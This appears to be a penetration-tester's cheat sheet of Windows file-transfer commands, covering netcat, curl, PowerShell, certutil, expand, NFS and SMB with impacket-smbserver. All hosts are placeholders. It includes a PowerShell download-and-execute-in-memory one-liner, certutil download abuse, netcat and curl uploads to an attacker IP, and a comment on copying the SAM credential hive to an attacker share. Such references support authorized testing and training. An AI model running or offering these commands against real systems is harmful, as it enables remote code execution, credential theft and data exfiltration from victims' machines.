 # Windows File Transfers

## Netcat

##### start listener on target
```sh
nc -nlvp [PORT] > [RECIVING_FILE]
```
##### send the file
```bash
nc [IP] [PORT] < [SENDING_FILE]
```

## Curl

```sh
curl -F "upload=@[FILE]" https://[IP]/[FILE]
```

```bash
curl -o [FILE] https://[IP]/[FILE]
```

## PowerShell

```powershell
(New-Object Net.WebClient).DownloadFile("http://[IP]/[FILE]","C:\Path\To\[FILE]")
 ```
 ```powershell
Invoke-WebRequest 'http://[IP]/[FILE]' -OutFile "[FILE]"
```
```powershell
invoke-webrequest -uri http://[IP]/[FILE] -out C:\Path\To\[FILE]
```
```powershell
(New-Object System.Net.WebClient).UploadFile('http://[IP]/[FILE]','[FILE]')
```
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile(http://[IP]/[FILE]','[FILE]')"
```
```powershell
powershell iwr -uri http://[IP]/[FILE] -outfile [FILE]
```

##### PowerShell v3
```bash
(net.webclient).downloadstring("http://[IP]/[FILE]") > C:\Path\To\[FILE]
```
```bash
(net.webclient).downloadfile("http://[IP]/[FILE]", "C:\Path\To\[FILE]")
```

##### Download and Execute (Memory)
```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('[IP]/[FILE]')"
```

## certutil

```bash
certutil -urlcache -split -f http://[IP]/[FILE] [FILE]
```
```bash
certutil -verifyctl -f -split http://[IP]/[FILE] [FILE]
```

## expand
```bash
expand http://[IP]/[FILE] [FILE]
```

##### ADS
```bash
expand \\[IP]\[FILE] C:\Path\To\[FILE]:[FILE]
```

## NFS Shares
```sh
sudo mkdir -p /mnt/[SHARE]
mount -t nfs -o vers=3 [IP]:/[FOLDER]/ /mnt/[SHARE]
```

```sh
sudo mkdir -p /mnt/[SHARE]
mount -t nfs -o vers=2 REMOTE_IP:/[FOLDER]/ /mnt/[SHARE]
```
##### Unmount
```sh
sudo umount /mnt/[SHARE]
```
##### Mount at Boot
```sh
[IP]:/[SHARE]/[FOLDER]  /mnt/[SHARE]  nfs  defaults,vers=3  0  0
```

## SMB Shares

##### Mount SMB Share
```sh
sudo mount -t cifs -o vers=1.0 //[REMOTE_IP]/[SHARE] /mnt/[SHARE]
```
##### Host SMB Share
```sh
# to use for exfil: copy C:\Windows\Repair\SAM \\KALI_IP\[SHARE]\sam.save
sudo impacket-smbserver [SHARE] .
```
##### Upload from Target
```bash
copy C:\Path\To\[FILE] \\[IP]\[SHARE]\[FILE]
```
##### Upload with curl to Target
```sh
curl --upload-file /Path/To/[FILE] -u 'DOMAIN\[USER]' smb://[IP]/[SHARE]/
```
##### Use smbclient to Get ALL files from an SMB share
```bash
smbclient //[IP]/[SHARE]
RECURSE ON
PROMPT OFF
mget *
```

### impacket-smbserver
- From Windows to Attacker
##### Setup Share on Attack Platform
```
mkdir /mnt/[SHARE] && cd $_
```
```
sudo impacket-smbserver [SHARE] /mnt/[SHARE]
```
```
sudo impacket-smbserver [SHARE] /mnt/[SHARE] -u [USER] -p [PASS] -smb2support
```

##### Mount Share in Windows
```
net use \\[IP]\[SHARE]
```

##### Download the File
```
copy [\Path\To\File.zip] \\[IP]\[SHARE]
```